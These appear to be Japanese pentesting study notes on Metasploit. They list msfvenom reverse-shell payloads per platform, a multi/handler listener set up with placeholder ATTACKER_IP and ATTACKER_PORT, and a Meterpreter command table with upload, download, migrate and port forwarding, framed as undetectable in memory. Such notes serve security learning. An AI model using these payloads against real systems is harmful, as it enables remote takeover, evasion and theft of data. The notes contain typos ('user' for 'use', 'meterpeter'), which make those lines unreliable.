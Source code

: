 |プラットフォーム|ペイロード|
|---|---|
|Windows|`windows/meterpreter/reverse_tcp`|
|Linux|`linux/x86/meterpreter/reverse_tcp`|
|macOS|`osx/x86/shell_reverse_tcp`|
|Android|`android/meterpreter/reverse_tcp`|
|Web (PHP)|`php/meterpreter/reverse_tcp`|

`-b` オプションによってバッドキャラクタを指定してそれらを含まないペイロードを生成できる。
ペイロードの作成後、msfcosoleを起動して待ち受ける。

```powershell
msfconsole
user exploit/multi/handler
set PAYLOAD PAYLOAD
set LHOST ATTACKER_IP
set LPORT ATTACKER_PORT
run
```

## Meterpreter

攻撃対象で動作するシェルのようなシステム。メモリ上で動作するのでログが残らず検知されない。しかし主要なアンチウイルスソフトにはバレる。

```bash
# meterpreterのpayloadsを表示
msfvenom --list payloads | grep meterpeter
```

攻撃対象のOSや利用可能なコンポーネント(pythonがインストールされている, PHPウェブサイトetc)や攻撃対象との間で確立したネットワークのタイプ(TCPが使える, HTTP reverse connectionが利用できるetc)などを基に使用するmeterpreterのバージョンを決める。

### コマンド
| コマンド       | 説明                                                     |
| ---------- | ------------------------------------------------------ |
| help       | コマンド一覧を表示                                              |
| background | 現在のセッションをバックグラウンドに回す                                   |
| guid       | セッションGUID(Global Unique ID)を表示                         |
| info       | モジュールの情報を表示                                            |
| irb        | 現在のセッションで対話的Ruby shellを開く                              |
| load       | meterpreter extentionsを開く                              |
| migrate    | meterpreterを別のプロセスに移す                                  |
| run        | meterpreterを実行                                         |
| sessions   | 別のセッションに移動                                             |
| edit       | ファイルを編集                                                |
| search     | ファイルを探す                                                |
| upload     | ファイルまたはディレクトリをアップロード                                   |
| download   | ファイルまたはディレクトリをダウンロード                                   |
| arp        | ホストARPキャッシュを表示                                         |
| portfwd    | 遠隔サービスへポート転送                                           |
| route      | ルーティングテーブルを表示・修正                                       |
